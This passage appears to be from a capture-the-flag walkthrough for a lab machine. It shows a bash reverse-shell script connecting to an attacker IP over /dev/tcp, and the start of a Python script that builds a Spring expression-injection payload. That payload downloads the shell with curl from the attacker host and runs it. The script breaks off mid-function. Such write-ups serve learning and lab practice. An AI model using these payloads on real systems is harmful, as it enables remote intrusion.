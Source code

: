 The `rev.sh` :
```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.10/1234 0>&1"
```

Copy the output of step 1 and step 2 to use with `Burp Repeater`. 
![step1_burp_repeater.png](img/step1_burp_repeater.png)
![step2_burp_repeater.png](img/step2_burp_repeater.png)

We got the revershell. Well.
Lets try to automate full process with `auto_exploit.py`
```python
#!/usr/bin/python3  
import requests  
IP = '10.10.11.170'  
PORT = '8080'  
command = ['whoami','curl -o /tmp/rev.sh http://10.10.14.10:8088/rev.sh', 'bash /tmp/rev.sh']  
def convert_to_char(c):  
    payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('  
    payload2 = ''  
    payload = payload + "T(java.lang.Character).toString(%s)" % ord(c[0])  
    for i in range(1, len(c)):  
        payload2 = ".concat(T(java.lang.Character).toString(%s))" % ord(c[i])  
        payload = payload + payload2  
  
    payload = payload + ").getInputStream())}"  
```